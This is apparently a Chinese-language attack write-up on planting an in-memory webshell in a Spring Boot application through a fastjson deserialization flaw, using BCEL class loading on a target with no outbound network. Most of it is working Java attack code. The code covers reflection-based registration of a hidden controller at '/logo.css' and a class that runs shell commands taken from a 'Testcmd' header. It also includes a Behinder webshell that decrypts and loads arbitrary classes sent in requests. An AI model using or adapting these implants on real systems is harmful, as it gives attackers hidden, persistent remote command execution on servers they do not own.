





# 1.环境说明

在某个不出网环境中，spring boot jar包启的环境，存在fastjson漏洞，可通过bcel类来执行命令并回显。

但是由于为不出网环境需要开正向代理出来，所以需要打入内存马。


# 2.spring boot 内存马

通过网络查找内存马代码如下

```java
@RequestMapping("/3")
    public String servlet3() {

        @RestController
        class InjectToController {
            public InjectToController() {

            }

            public void test() throws Exception {
                // 获取request和response对象
                HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
                HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
                // 获取cmd参数并执行命令
                //System.out.println(request.getParameter("cmd"));
                java.lang.Runtime.getRuntime().exec("open -a Calculator");
                // response.getWriter().write("a");
            }
        }
        try {
            // 1. 利用spring内部方法获取context
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            // 2. 从context中获得 RequestMappingHandlerMapping 的实例
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            // 3. 通过反射获得自定义 controller 中的 Method 对象
            Method method = InjectToController.class.getMethod("test");
            // 4. 定义访问 controller 的 URL 地址
            PatternsRequestCondition url = new PatternsRequestCondition("/cmd");
            // 5. 定义允许访问 controller 的 HTTP 方法（GET/POST）
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
            // 6. 在内存中动态注册 controller
            RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);

            InjectToController injectToController = new InjectToController();
            mappingHandlerMapping.registerMapping(info, injectToController, method);
            return "inject ok...";
        } catch (Exception ex) {
            return "inject fail...";
        }
    }
```

访问该路由，注入内存马



再访问cmd,可成功触发代码



但是在becl的classloader中因为加载器的不同是无法直接import spring相关的一系列包的，如果想要使用spring相关的class，必须通过`Thread.currentThread().getContextClassLoader().loadClass("org.sping....")`这种方式来load。

然后因为没有代码上下文环境，所以我们也不能通过`context.getBean`的方法来获取mappingHandlerMapping这个class，spring的 servlet就是存放在该class中的。

所以我们直接用过java_object_serach来在Thread.currentThread()中搜索该class的路径，结果如下



我们通过反射来拿到该变量

```java
ClassLoader springClassload = Thread.currentThread().getContextClassLoader();

            Field resourcesField = Thread.currentThread().getContextClassLoader().getClass().getSuperclass().getSuperclass().getDeclaredField("resources");
            resourcesField.setAccessible(true);
            Object context = resourcesField.get(Thread.currentThread().getContextClassLoader());

            Field contextField = context.getClass().getDeclaredField("context");
            contextField.setAccessible(true);
            Object context2 = contextField.get(context);
            Field context2Field = context2.getClass().getSuperclass().getDeclaredField("context");
            context2Field.setAccessible(true);
            Object context3 = context2Field.get(context2);

            Field attributesField = context3.getClass().getDeclaredField("attributes");
            attributesField.setAccessible(true);
            ConcurrentHashMap attributesMap = (ConcurrentHashMap) attributesField.get(context3);
            Object springRoot = attributesMap.get("org.springframework.web.context.WebApplicationContext.ROOT");

            Field applicationEventMulticasterField = springRoot.getClass().getSuperclass().getSuperclass().getSuperclass().getSuperclass().getDeclaredField("applicationEventMulticaster");
            applicationEventMulticasterField.setAccessible(true);
            Object applicationEventMulticaster = applicationEventMulticasterField.get(springRoot);

            Field retrievalMutexField = applicationEventMulticaster.getClass().getSuperclass().getDeclaredField("retrievalMutex");
            retrievalMutexField.setAccessible(true);
            ConcurrentHashMap retrievalMutex = (ConcurrentHashMap) retrievalMutexField.get(applicationEventMulticaster);


            Constructor patternsRequestCondition = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.servlet.mvc.condition.PatternsRequestCondition").getConstructor(String[].class);
            // PatternsRequestCondition url = new PatternsRequestCondition("/cmd");
            // String[] urls = {"/cmd"};
            Object url = patternsRequestCondition.newInstance(new Object[]{new String[]{"/logo.css"}});


            // 5. 定义允许访问 controller 的 HTTP 方法（GET/POST）
            // RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
            Constructor msConstructor = springClassload.loadClass("org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition").getConstructor(Array.newInstance(springClassload.loadClass("org.springframework.web.bind.annotation.RequestMethod"), 1).getClass());
            Object ms = msConstructor.newInstance(new Object[]{Array.newInstance(springClassload.loadClass("org.springframework.web.bind.annotation.RequestMethod"), 0)});

            // RequestMappingInfo info = new RequestMappingInfo((PatternsRequestCondition) url, ms, null, null, null, null, null);
            Constructor requestMappingInfoConstructor = springClassload.loadClass("org.springframework.web.servlet.mvc.method.RequestMappingInfo").getConstructor(springClassload.loadClass("org.springframework.web.servlet.mvc.condition.PatternsRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.ParamsRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.HeadersRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.ConsumesRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.ProducesRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.RequestCondition"));
Object info = requestMappingInfoConstructor.newInstance(url, ms, null, null, null, null, null);
```

然后在demo代码中，是直接通过定义一个内部类然后注入到requestMappingHandlerMapping中，但是在bcel环境中，因为加载器的不同，我们无法直接使用内部类，会提示找不到class，所以我们通过反射bcelclass然后load一个class进来。

```
 Object bcelclassLoader = springClassload.loadClass("com.sun.org.apache.bcel.internal.util.ClassLoader").newInstance();
            Method loadClassmethod = bcelclassLoader.getClass().getMethod("loadClass",String.class);
            Class ob1 = (Class) loadClassmethod.invoke(bcelclassLoader,"$$BCEL$$.....");
            // Method method2 = ob1.getMethod("test", springClassload.loadClass("javax.servlet.http.HttpServletRequest"),springClassload.loadClass("javax.servlet.http.HttpServletResponse"));
            Method method2 = ob1.getMethod("test");
            Object injectToController = ob1.newInstance();
```

然后再进行注入

```java
 Method registerMethod = retrievalMutex.get("requestMappingHandlerMapping").getClass().getSuperclass().getSuperclass().getDeclaredMethod("registerMapping", Object.class, Object.class, Method.class);
registerMethod.invoke(retrievalMutex.get("requestMappingHandlerMapping"), info, injectToController, method2);
```

通过这些代码，可以实现将任意方法注册到一个servlet中，以实现命令执行为例,class定义如下

```java
package com.example.demo.fastjson.vul;

import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

public class InjectToController {
    public InjectToController() {

    }

    public void test() throws Exception {
        try {
            boolean var0 = false;
            Thread[] var1 = (Thread[])((Thread[])getFV(Thread.currentThread().getThreadGroup(), "threads"));

            for(int var2 = 0; var2 < var1.length; ++var2) {
                Thread var3 = var1[var2];
                if (var3 != null) {
                    String var4 = var3.getName();
                    if (!var4.contains("exec") && var4.contains("http")) {
                        Object var5 = getFV(var3, "target");
                        if (var5 instanceof Runnable) {
                            try {
                                var5 = getFV(getFV(getFV(var5, "this$0"), "handler"), "global");
                            } catch (Exception var11) {
                                continue;
                            }

                            List var6 = (List)getFV(var5, "processors");

                            for(int var7 = 0; var7 < var6.size(); ++var7) {
                                Object var8 = var6.get(var7);
                                var5 = getFV(var8, "req");
                                Object var9 = var5.getClass().getMethod("getResponse").invoke(var5);
                                var4 = (String)var5.getClass().getMethod("getHeader", String.class).invoke(var5, new String("Testecho"));
                                if (var4 != null && !var4.isEmpty()) {
                                    var9.getClass().getMethod("setStatus", Integer.TYPE).invoke(var9, new Integer(200));
                                    var9.getClass().getMethod("addHeader", String.class, String.class).invoke(var9, new String("Testecho"), var4);
                                    var0 = true;
                                }

                                var4 = (String)var5.getClass().getMethod("getHeader", String.class).invoke(var5, new String("Testcmd"));
                                if (var4 != null && !var4.isEmpty()) {
                                    var9.getClass().getMethod("setStatus", Integer.TYPE).invoke(var9, new Integer(200));
                                    String[] var10 = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", var4} : new String[]{"/bin/sh", "-c", var4};
                                    writeBody(var9, (new Scanner((new ProcessBuilder(var10)).start().getInputStream())).useDelimiter("\\A").next().getBytes());
                                    var0 = true;
                                }

                                if ((var4 == null || var4.isEmpty()) && var0) {
                                    writeBody(var9, System.getProperties().toString().getBytes());
                                }

                                if (var0) {
                                    break;
                                }
                            }

                            if (var0) {
                                break;
                            }
                        }
                    }
                }
            }
        } catch (Exception var12) {
        }
    }


    private static void writeBody(Object var0, byte[] var1) throws Exception {
        Object var2;
        Class var3;
        try {
            var3 = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
            var2 = var3.newInstance();
            var3.getDeclaredMethod("setBytes", byte[].class, Integer.TYPE, Integer.TYPE).invoke(var2, var1, new Object[]{new Integer(0), new Integer(var1.length)});
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        } catch (ClassNotFoundException var5) {
            var3 = Class.forName("java.nio.ByteBuffer");
            var2 = var3.getDeclaredMethod("wrap", byte[].class).invoke(var3, var1);
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        } catch (NoSuchMethodException var6) {
            var3 = Class.forName("java.nio.ByteBuffer");
            var2 = var3.getDeclaredMethod("wrap", byte[].class).invoke(var3, var1);
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        }

    }

    private static Object getFV(Object var0, String var1) throws Exception {
        Field var2 = null;
        Class var3 = var0.getClass();

        while (var3 != Object.class) {
            try {
                var2 = var3.getDeclaredField(var1);
                break;
            } catch (NoSuchFieldException var5) {
                var3 = var3.getSuperclass();
            }
        }

        if (var2 == null) {
            throw new NoSuchFieldException(var1);
        } else {
            var2.setAccessible(true);
            return var2.get(var0);
        }
    }
}

```

通过如下代码可将该class转换为bcel码

```java
@RequestMapping("/5")
    public void servlet5() throws ClassNotFoundException, InstantiationException, IllegalAccessException, IOException {
        JavaClass cls = Repository.lookupClass(InjectToController.class);
        String code = Utility.encode(cls.getBytes(), true);
        System.out.println("$$BCEL$$" + code);
    }
```

然后替换上文中的内部类的bcel码，然后再将内存马注入代码转换为bcel码,然后通过fastjson进行执行，我这里通过直接load来模拟漏洞环境



执行以后spring boot控制台提示有新的map


然后访问/logo.css试试,成功命令执行内存马注入



# 3.打入冰蝎马

代码示例如下:

```java
public class InjectToController extends ClassLoader {
    public InjectToController() {

    }

    InjectToController(ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }


    public void test() throws Exception {
        ClassLoader springLoader = Thread.currentThread().getContextClassLoader();
        Method currentRequestAttributesMethod = springLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("currentRequestAttributes");
        Object reqFace = currentRequestAttributesMethod.invoke(springLoader.loadClass("org.springframework.web.context.request.RequestContextHolder"));

        Method getRequestMethod = reqFace.getClass().getMethod("getRequest");
        Object request = getRequestMethod.invoke(reqFace);
        Method getResponseMethod = reqFace.getClass().getMethod("getResponse");
        Object response = getResponseMethod.invoke(reqFace);


        // HttpServletRequest req = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        // request1.getMethod()
        // HttpServletResponse response1 = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        // response1.getHeader("cmd")
        // Method
        String getMethod = (String) request.getClass().getMethod("getMethod").invoke(request);
        String payload;
        if (getMethod.equals("POST")) {
            BufferedReader b = (BufferedReader) request.getClass().getMethod("getReader").invoke(request);
            payload = b.readLine();
        } else {
            payload = (String) request.getClass().getMethod("getHeader", String.class).invoke(request, "p");
            if (payload == null || payload.equals("")) {
                Object writer = response.getClass().getMethod("getWriter").invoke(response);
                writer.getClass().getMethod("println", String.class).invoke(writer, "ok");
                writer.getClass().getMethod("flush").invoke(writer);
                writer.getClass().getMethod("close").invoke(writer);
                return;
            }
        }

        String k = "*********";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        // req.getSession().putValue("u", k);
        Object session = request.getClass().getMethod("getSession").invoke(request);
        session.getClass().getMethod("putValue", String.class, Object.class).invoke(session, "u", k);

        Cipher c = null;
        try {
            c = Cipher.getInstance("AES");
        } catch (NoSuchAlgorithmException e) {
            e.printStackTrace();
        } catch (NoSuchPaddingException e) {
            e.printStackTrace();
        }
        try {
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        } catch (InvalidKeyException e) {
            e.printStackTrace();
        }
        try {
            Map<String, Object> pageContext = new HashMap<String, Object>();
            pageContext.put("session", session);
            pageContext.put("request", request);
            pageContext.put("response", response);

            this.g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(payload))).newInstance().equals(pageContext);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


